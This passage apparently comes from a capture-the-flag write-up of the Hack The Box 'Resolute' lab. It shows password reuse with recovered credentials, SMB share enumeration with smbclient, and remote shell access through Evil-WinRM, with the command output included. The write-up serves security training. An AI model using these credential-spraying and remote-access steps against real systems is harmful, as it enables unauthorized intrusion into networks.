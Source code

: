 ## Initial Foothold

I tried using the creds for `marko` to enumerate SMB but got nothing back. I then tested his password with the users `ryan` and `melanie` and was able to get a share listing with `melanie:Welcome123!`Thank you password reuse!

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie -L //10.10.10.169/
Enter WORKGROUP\melanie's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next, I tried connecting to each of the shares. We only see the standard Windows domain shares, nothing out of the ordinary. Only `NETLOGON` and `SYSVOL` allowed `melanie` to log in, but neither contained anything useful. `SYSVOL` had more folders to browse through, but still nothing useful.

```text
zweilos@kalimaa:~/htb/resolute$ smbclient -U melanie //10.10.10.169/NETLOGON Welcome123!
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 25 09:28:21 2019
  ..                                  D        0  Wed Sep 25 09:28:21 2019

                10340607 blocks of size 4096. 7555454 blocks available
```

## Road to User

Since `melanie` is a member of the `Remote Management Users` group, I tried to log in through Windows Remote Management using the `Evil-WinRM` tool, which can be found at [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).

```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I'm in!

```text
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ===============================================
megabank\melanie S-1-5-21-1392959593-3013219662-3596683436-10101


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
```